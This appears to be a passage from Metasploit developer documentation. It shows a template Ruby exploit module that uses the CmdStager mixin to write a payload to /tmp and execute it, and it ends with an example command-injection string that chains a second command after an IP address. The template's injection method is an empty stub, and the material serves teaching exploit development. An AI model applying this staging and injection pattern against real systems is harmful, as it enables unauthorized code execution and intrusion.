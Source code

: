 **Msf::Exploit::CmdStager Template**

At the minimum, this is how your exploit should start when you're using the CmdStager mixin:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::CmdStager

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Command Injection Using CmdStager',
        'Description' => %q{
          This exploits a command injection using the command stager.
        },
        'License' => MSF_LICENSE,
        'Author' => [ 'sinn3r' ],
        'References' => [ [ 'URL', 'http://metasploit.com' ] ],
        'Platform' => 'linux',
        'Targets' => [ [ 'Linux', {} ] ],
        'Payload' => { 'BadChars' => "\x00" },
        'CmdStagerFlavor' => [ 'printf' ],
        'Privileged' => false,
        'DisclosureDate' => '2016-06-10',
        'DefaultTarget' => 0
      )
    )
  end

  def execute_command(cmd, opts = {})
    # calls some method to inject cmd to the vulnerable code.
  end

  def exploit
    print_status('Exploiting...')
    execute_cmdstager
  end

end
```

As you can see, we have chosen the "printf" flavor as our command stager. We will explain more about
this later, but basically what it does is it writes our payload to `/tmp` and executes it.

Now let's modify the `execute_command` method and get code execution against the test case. Based on the PoC, we know that our injection string should look like this:

```
127.0.0.1+%26%26+[Malicious commands]
```
